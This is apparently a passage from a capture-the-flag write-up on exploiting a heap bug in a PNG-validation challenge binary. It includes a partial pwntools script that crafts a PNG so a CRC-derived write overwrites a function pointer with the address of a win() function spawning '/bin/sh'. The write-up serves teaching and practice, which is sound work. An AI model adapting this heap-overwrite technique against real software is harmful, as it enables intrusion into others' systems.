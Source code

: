 tldr: we get a controlled write-where with check_value onto the heap, and there is a function pointer that will be called in the adjacent allocation :).

I havent mentioned this until now, but there is a `win()` function in the binary that looks like this:

```c
void win(void)

{
  system("/bin/sh");
  return;
}
```

A desirable target, no? (bear in mind that PIE is also off)

So our goal here is to overwrite `pngFooterValidate` with the `check_value` returned from `update_crc()`. There is a question though. Due to the unpredictable, complex
nature of the `update_crc()` algo, we cannot *directly* influence the output. So how would we find an input that would result in an output from `update_crc()` of the
address of the `win()` function? Well let me show you my exploit:

```python
from pwn import *                                                                                                                    

##Gdb + config stuff
script = '''
b *main+160
b *pngHeadValidate
b *update_crc
b *update_crc+98
b *pngChunkValidate+27
b *pngChunkValidate+160
b *pngHeadValidate+244
b *main+449
continue
'''

## Making the image meta-stuff
# Size of image, but also size of the allocation. This will give us 0x41 regardless tho lel.
img_sz = 0x29
# For passing the first check
pngHead = 0x0a1a0a0d474e5089
# We need this @ index 29 // 0x1d. Since the value at image_alloc+0xc is always the same, we can just see what value it spits out of update_crc
# then input that value as our checksum. This will pass the check every time.
checksum = 0x5ab9bc8a

## Lets make our png.
# Just some stuff to pass initial checks
png = p64(pngHead) + b"\r" * (7)
# Padding until the 29th // 0x1d byte (start of checksum)
png += b"A"*( 0x1d - len(png) )
# This value will be returned from update_crc if you provided 
png += p32(checksum)
# Counter for update_crc will be '\x27', this is enough to write out of our chunk up until the pngFooterValidate function pointer, at which point 
# we write 2 bytes extracted from the return of crc_update.
png += b"\x00"*3 + b"\x27"
# Bruteforced value - ensures that crc_update returns the correct value, such that the last 2 bytes are set to 0x1818 that then is written 
# at the end of the pngFooterValidate function pointer in the adjacent allocation. This function pointer is then called == shell, because these
# are the bottom 2 bytes of win().
```